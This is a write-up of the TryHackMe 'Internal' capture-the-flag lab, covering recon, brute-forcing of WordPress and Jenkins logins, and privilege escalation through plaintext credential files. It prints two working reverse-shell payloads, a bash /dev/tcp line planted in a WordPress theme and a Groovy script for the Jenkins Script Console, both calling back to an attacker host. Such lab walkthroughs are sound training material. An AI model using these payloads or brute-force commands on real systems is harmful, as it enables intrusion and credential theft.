

# TryHackMe's Internal Room

<https://tryhackme.com/r/room/internal>

## Introduction

If you're looking to deepen your skills in network security and penetration testing, TryHackMe's Internal room offers an excellent challenge. This room simulates a real-world environment where you'll need to leverage your reconnaissance, brute-forcing, and privilege escalation techniques. With services waiting to be uncovered and exploited, Internal provides a comprehensive lab for pentesters to enhance their techniques and understanding.

## Recon

Let's run a scan

```bash
nmap -sS -p- --min-rate 5000 --open -Pn -n -vvv 10.10.145.179

Starting Nmap 7.60 ( https://nmap.org ) at 2024-11-01 09:53 GMT
Initiating ARP Ping Scan at 09:53
Scanning 10.10.145.179 [1 port]
Completed ARP Ping Scan at 09:53, 0.23s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 09:53
Scanning 10.10.145.179 [65535 ports]
Discovered open port 80/tcp on 10.10.145.179
Discovered open port 22/tcp on 10.10.145.179
Completed SYN Stealth Scan at 09:54, 19.26s elapsed (65535 total ports)
Nmap scan report for 10.10.145.179
Host is up, received arp-response (0.00036s latency).
Scanned at 2024-11-01 09:53:49 GMT for 19s
Not shown: 65533 closed ports
Reason: 65533 resets
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:6A:97:9F:60:25 (Unknown)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 19.82 seconds
           Raw packets sent: 107259 (4.719MB) | Rcvd: 107259 (4.290MB)
```

We found a http server listening on port 80, let's proceed to enumerate the subdirectories.

```bash
python3.9 dirsearch.py -u 10.10.145.179 -x 400,500,404 -r -t 100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, asp, aspx, jsp, html, htm | HTTP method: GET | Threads: 100 | Wordlist size: 220545

Target: http://10.10.145.179/

[10:05:32] Scanning:
[10:05:32] 301 -   313B - /blog  ->  http://10.10.145.179/blog/
Added to the queue: blog/
[10:05:34] 301 -   318B - /wordpress  ->  http://10.10.145.179/wordpress/
Added to the queue: wordpress/
[10:05:35] 301 -   319B - /javascript  ->  http://10.10.145.179/javascript/
Added to the queue: javascript/
[10:06:07] 301 -   319B - /phpmyadmin  ->  http://10.10.145.179/phpmyadmin/
Added to the queue: phpmyadmin/
[10:10:19] 403 -   278B - /server-status

....

```

We found a wordpress service on the /blog subdirectory.

In order to be navigate the blog we need to add the following line to the /etc/hosts file, otherwise we would not be able to resolve the internal.thm links.

```bash
10.10.14.116 internal.thm
```

Now we can try to brute force the wordpress login with hydra.
Remember: hydra wants a string structured like this:"PATH:REQUEST_PAYLOAD:ERROR_MSG" where PATH is the subdirectory path, REQUEST_PAYLOAD can be found looking at the login request using the Network tab of the Developer Tools of your browser (remember to take it raw) and the ERROR_MSG is the error message displayed when the login fails.

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.14.116 http-post-form "/blog/wp-login.php:log=admin&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Finternal.thm%2Fblog%2Fwp-admin%2F&testcookie=1:Error" -t 64
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2024-11-01 17:27:12
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344398 login tries (l:1/p:14344398), ~224132 tries per task
[DATA] attacking http-post-form://10.10.14.116:80//blog/wp-login.php:log=admin&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Finternal.thm%2Fblog%2Fwp-admin%2F&testcookie=1:Error
[STATUS] 1659.00 tries/min, 1659 tries in 00:01h, 14342739 to do in 144:06h, 64 active
[80][http-post-form] host: 10.10.14.116   login: admin   password: [REDACTED]
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2024-11-01 17:29:46
```

Access the wordpress admin dashboard with the credentials we found. We will spawn a reverse php shell. Go into the Theme Editor and add the following line into one of the php files.

```bash
exec("/bin/bash -c 'bash -i >& /dev/tcp/<YOUR_ATTACKBOX_IP>/1234 0>&1'");
```

I chose the functions.php file. In the way I did it the wordpress site breaks down. If you want to avoid that you can put the line in the 404.php file.



We start a listener and trigger the shell by refreshing the blog page.

```bash
rlwrap nc -lvnp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from 10.10.4.224 33356 received!
bash: cannot set terminal process group (1030): Inappropriate ioctl for device
bash: no job control in this shell
www-data@internal:/var/www/html/wordpress/wp-admin$
```

We now have a shell with the `www-data` user.

```bash
www-data@internal:/var/www/html/wordpress/wp-admin$ whoami
whoami
www-data
```

We stabilize it thanks to python.

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Navigating the filesystem we find an interesting file in _/opt_

```bash
ls
containerd  wp-save.txt
```

Let's check out the content of **wp-save.txt**

```bash
cat wp-save.txt
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:[REDACTED]
```

This file contains the password for the aubreanna user.  
We can use it to log in and get the user flag.

```bash
aubreanna@internal:~$ ls
jenkins.txt  snap  user.txt
aubreanna@internal:~$ cat user.txt
[REDACTED]
```

In aubreanna's home we find another interesting file, **jenkins.txt**, let's check it out.

```bash
cat jenkins.txt
Internal Jenkins service is running on 172.17.0.2:8080
```

We just found an internal service! Given its IP is probably a service running in a Docker container.
We can confirm the service existence running netstat

```bash
netstat -tlpn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -
....
```

The first step to exploit the service is to expose it, at least to our local machine. We can do so with local port forwarding using SSH, thanks to aubreanna's credentials.
Run the following command on your attacking machine.

```bash
ssh -L 8001:localhost:8080 aubreanna@10.10.18.173
```

We have basically created a tunnel that forwards traffic from our local port 8001 to the remote service port 8080. Therefore the service is now accessible from our localhost on port 8001.
We access _localhost:8001_ on our browser and get the Jenkins login.  
The common default credentials wont work, so we will try to brute-force it.  
At first I tried with hydra, like we did earlier, but for some reason it was painfully, unreasonably slow, like 0.5 request/minute slow.  
I don't know if it has something to do with the SSH tunnel or with Jenkins itself.  
Anyway, after some searching online, I decided to turn to another tool: **ffuf**, a very powerful and fast fuzzing tool.  
In order to use ffuf we need to capture a login request, we can do so using Burp Suite.  
Once that is done, we create a file containing the request.

```bash
cat request.txt
POST /j_acegi_security_check HTTP/1.1
Host: localhost:8001
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 56
Origin: http://localhost:8001
Connection: close
Referer: http://localhost:8001/loginError
Cookie: JSESSIONID.01c6bbcd=node01bkv92y8hsy5gepu3k07vyrwo0.node0
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

j_username=USERFUZZ&j_password=PASSFUZZ&from=%2F&Submit=Sign+in
```

Notice the **USERFUZZ** and **PASSFUZZ** in the request, these are placeholder that we need to add to the request: ffuf will replace them with words from the wordlists we will specify.  
Create a **user.txt** file with some likely usernames.

```bash
cat users.txt
admin
jenkins
aubreanna
```

We will launch ffuf in clusterbomb mode: ffuf will try every possible combination of words from user.txt and password from rockyou.txt.  
Notice how for each wordlist we specify the placeholder it needs to replace.  
Generally you can instruct ffuf to recognize the "success" based on the HTTP code received in the response. Unfortunately in this case both failed and successful logins return code 302, so we need to use another method.
If you want to see this for yourself just pull the **jenkins/jenkins:2.250** docker image from Dockerhub, which is the same version of the jenkins service on our target machine. This would allow you to check how the service responds to a successfull login.
Anyway, the -fr option comes to the rescue! It is used to filter out responses based on a regular expression.  
Using Burp we can intercept the response to a login request with wrong credentials and we notice that it contain the line `Location: http://internal.thm:8002/loginError`.  
It is a fair assumption that a successful response would not contain the string `loginError` so we can use it as a filter.

```bash
ffuf -request request.txt -request-proto http -mode clusterbomb -w users.txt:USERFUZZ -w /usr/share/wordlists/rockyou.txt:PASSFUZZ -fr loginError

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.3.1
________________________________________________

 :: Method           : POST
 :: URL              : http://localhost:8001/j_acegi_security_check
 :: Wordlist         : USERFUZZ: users.txt
 :: Wordlist         : PASSFUZZ: /usr/share/wordlists/rockyou.txt
 :: Header           : Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
 :: Header           : Connection: close
 :: Header           : Referer: http://localhost:8001/loginError
 :: Header           : Sec-Fetch-Mode: navigate
 :: Header           : Host: localhost:8001
 :: Header           : User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/109.0
 :: Header           : Sec-Fetch-Site: same-origin
 :: Header           : Origin: http://localhost:8001
 :: Header           : Sec-Fetch-Dest: document
 :: Header           : Upgrade-Insecure-Requests: 1
 :: Header           : Sec-Fetch-User: ?1
 :: Header           : Accept-Language: en-US,en;q=0.5
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : Accept-Encoding: gzip, deflate, br
 :: Header           : Cookie: JSESSIONID.01c6bbcd=node01bkv92y8hsy5gepu3k07vyrwo0.node0
 :: Data             : j_username=USERFUZZ&j_password=PASSFUZZ&from=%2F&Submit=Sign+in
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Regexp: loginError
________________________________________________

[Status: 302, Size: 0, Words: 1, Lines: 1]
    * USERFUZZ: admin
    * PASSFUZZ: [REDACTED]
```

After a short time we should get the password of the admin user.  
We use it to access the Jenkins dashboard.  
We can continue exploring by spawning a shell inside the service container.  
Jenkins allows to run Groovy scripts in its "Script Console", located at /script.  
Access it and paste the following script.

```bash
String host="10.10.92.47";
int port=1234;
String cmd="bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Replace the host string with the IP of your attack machine.
Start a listener and run the script.

```bash
nc -lvnp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from 10.10.18.173 40802 received!
whoami
jenkins
```

We are now logged in with the **jenkins** user and we can further confirm we are in a docker container: docker creates a .dockerenv file at the top of the directory tree.

```bash
ls -la /.dockerenv
-rwxr-xr-x 1 root root 0 Aug  3  2020 /.dockerenv
```

By taking a look around in the usual folders (/tmp, /home, /opt,...) we find an interesting file.

```bash
cd /opt
ls
note.txt
cat note.txt
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you
need access to the root user account.

root:[REDACTED]
```

These guys must really like to keep their passwords in clear text!  
Now that we have root's credentials, we can login and get the root flag.

```bash
aubreanna@internal:~$ su
Password:
root@internal:/home/aubreanna# cd /root
root@internal:~# ls
root.txt  snap
root@internal:~# cat root.txt
[REDACTED]
```

That's all for this room, see you in the next one.  
In the meanwhile, happy hacking!
